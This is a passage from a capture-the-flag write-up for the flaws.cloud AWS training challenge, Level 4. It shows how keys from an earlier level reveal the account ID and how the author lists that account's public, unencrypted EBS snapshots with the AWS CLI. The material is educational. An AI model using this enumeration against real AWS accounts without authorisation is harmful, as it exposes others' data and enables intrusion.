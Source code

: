 And there's the link to level 4 :)

## Level 4

<blockquote>
For the next level, you need to get access to the web page running on an EC2 at <a href="http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/">4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud</a>. <br/>
It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.
</blockquote>

Get the account ID using the keys from the previous level:

```bash
~ aws --profile level-3 sts get-caller-identity
{
    "Account": "975426262029",
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}
```

By default *__snapshots are private, and you can transfer them between accounts securely by specifying the account ID of the other account__*, but a number of people just make them public and forget about them.

View all the snapshots of this owner ID:

```bash
~ aws --profile level-3 ec2 describe-snapshots --owner-id 975426262029
You must specify a region. You can also configure your region by running "aws configure".	
```

But from level 1 we know the region is ```us-west-2```.

```bash
~ aws --profile level-3 ec2 describe-snapshots --owner-id 975426262029  --region us-west-2
{
    "Snapshots": [
        {
            "Description": "",
            "Tags": [
                {
                    "Value": "flaws backup 2017.02.27",
                    "Key": "Name"
                }
            ],
            "Encrypted": false,
            "VolumeId": "vol-04f1c039bc13ea950",
            "State": "completed",
            "VolumeSize": 8,
            "StartTime": "2017-02-28T01:35:12.000Z",
            "Progress": "100%",
            "OwnerId": "975426262029",
            "SnapshotId": "snap-0b49342abd1bdcb89"
        }
    ]
}
```
